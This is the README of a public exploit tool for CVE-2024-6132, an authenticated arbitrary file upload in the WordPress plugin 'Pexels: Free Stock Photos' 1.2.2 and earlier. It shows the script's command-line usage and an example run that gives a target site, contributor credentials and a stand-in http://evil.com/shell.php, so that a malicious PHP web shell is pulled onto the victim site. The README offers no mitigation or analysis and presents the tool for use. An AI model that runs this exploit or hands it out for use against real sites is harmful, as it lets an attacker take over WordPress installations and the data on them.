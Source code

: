 # CVE-2024-6132
Pexels: Free Stock Photos &lt;= 1.2.2 - Authenticated (Contributor+) Arbitrary File Upload



## Usage 

```
usage: CVE-2024-6132.py [-h] -u URL -un USERNAME -p PASSWORD -shell_url SHELL_URL

Pexels: Free Stock Photos <= 1.2.2 - Authenticated (Contributor+) Arbitrary File Upload | BY NXPLOIT - KHALED ALENAZI,

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     WordPress site URL
  -un USERNAME, --username USERNAME
                        WordPress username
  -p PASSWORD, --password PASSWORD
                        WordPress password
  -shell_url SHELL_URL, --shell_url SHELL_URL
                        URL of the malicious PHP file
```
## Example:

```
python3 CVE-2024-6132.py -u https://targetsite.com -un contributor -p password123 -shell_url http://evil.com/shell.php
